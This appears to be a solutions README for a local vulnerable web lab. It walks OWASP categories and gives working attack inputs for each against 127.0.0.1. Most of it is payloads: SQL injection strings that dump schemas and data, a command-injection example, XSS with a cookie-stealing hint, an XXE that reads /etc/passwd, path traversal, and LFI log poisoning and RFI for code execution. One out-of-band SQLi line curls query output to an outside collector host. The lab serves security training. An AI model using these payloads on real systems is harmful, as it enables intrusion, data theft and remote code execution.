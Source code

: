 # Lab-solutions
Lab solutions

## Open redirect(BAC)
```http://127.0.0.1/bac/openr/index.php?redirect=yoursite```

## IDOR
Login to account using username & password</br>
```http://127.0.0.1/bac/idor/home.php?acnumber=2233445577```  change acnumber value to 2233445566(vertical privesc) to 2233445588(horizantol)</br>

## Cryptographic failure
Fuzz the site</br>
```http://127.0.0.1/crypt/FUZZ```  you will get secret.db file download it & open it with sqlieditor crack the password using crackstation.net & log in to admin</br>

## Injections
### command
```use ; semicolon with ip ex: 127.0.0.1;whoami```</br>

### SQLI(put a single quote in ID it returns SQLI error message)
version extract using error based sqli<\br>
```1'or 1=1 in (LEFT(version(), 1) = '1')#```    - first char 1 in version it returns all columns data</br>
```1'or 1=1 in (LEFT(version(), 2) = '10')#``` - second char 10 in version it returns all columns data</br>
```1'or 1=1 in (LEFT(version(), 3) = '10.')#```  - third char 10. in version it returns all columns data</br>
so the version number is 10. so on<\br>

### Union
order by to guess columns</br>
```1' order by 3#```  upto 3 no errors after 3 error means total columns are 3</br>

### union query to extract data from columns
```1'union select null,@@version,null #```  getting version</br>
```1'union select null,schema_name,null from information_schema.schemata#```   -extract databases</br>
```1'union select null,table_name,null from information_schema.tables where table_schema='databasenamefromabove'#```  -extract tablenames</br>
```1'union select null,column_name,null from information_schema.columns where table_schema='databasenamefromabove' and table_name='table_namefromabove'#```    </br>
```1'union select null,column_name_extractdata,null from tablename#```  - get datafrom a specific column

### Boolean(no errors -data disappear based true false condition)
```1'and if (1=1, (LEFT(version(), 1) = '1'), 'false')#```  -first char is 1 and data  appear</br>
```1'and if (1=1, (LEFT(version(), 2) = '10'), 'false')#```  - second char is 0 and data appear</br>
so the version is 10<\br>

### delay
```1' or sleep(5)#```</br>

### OOB sqli
```';COPY (SELECT version()) TO PROGRAM 'curl -G burpcollaborator?data=$(cat)'-- ```  you will receive data on your burpcollaborator</br>

## XSS
### Rxss
```<script>alert(123)</script>```</br>
### Sxss
```<script>alert(123)</script>```</br>
### DOM
```http://127.0.0.1/inject/xss/dom.html?default=<script>alert(123)</script>```</br>
### BLind
submit your comment payload(<script>alert(123)</script>) on comments page login to admin panel it will trigger xss</br>
use a cookie stealing payload to steal admin cookie

## Insecure design
go to reset password page & use username admin & bruteforce the OTP it will give a password & login to admin account</br>

## Security misconfiguration
create  a .xml file & add below data then upload it the portal you can see /etc/passwd file contents</br>
```
<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>
&test;
</root>
```

## Vulnerable & outdated components
Fuzz the files & you will find admin endpoint with login page</br>
```http://127.0.0.1/wbce/admin/login/```  - use admin/password deault creds to login its wbce vulnerable version. exploit it and gain code execution</br>

## identification & Authentication failure
its a input type juggling vulnerability in php</br>
capture login request just replace password= value in body to ```password[]=randomvalue```  you can login to admin account</br>

## software & data integrity failure
login to user account with details on login portal</br>
then you can see JWT on request & response header. just decode it and replace username with admin. encode the JWT & submit. you can all admin data</br>

## Security logging & monitoring
Fuzz for log files you will find access.log file & and the attack is bruteforce you can check logs</br>


## SSRF
```http://127.0.0.1/ssrf/index.php?page=burpcollaborator```  you can get a dummy secret Authorization header</br>

## Path traversal
```http://127.0.0.1/pathtr/index.php?page=../../../../../../etc/passwd```</br>

## File inclusion
### LFI
```http://127.0.0.1/fileinc/index.php?page=../../../../../var/log/apache2/access.log```     - you can access log file. perform log poison to get code exection</br>
then submit your php system function payload using Useragent & access it over access.log and your parameter. you will code execution.</br>

### RFI
host your own server with a php system function based payload and access it through page parameter</br>
```http://127.0.0.1/fileinc/index.php?page=http://yourserver/code.php```   - it will execute the code.php file & show output on screen</br>
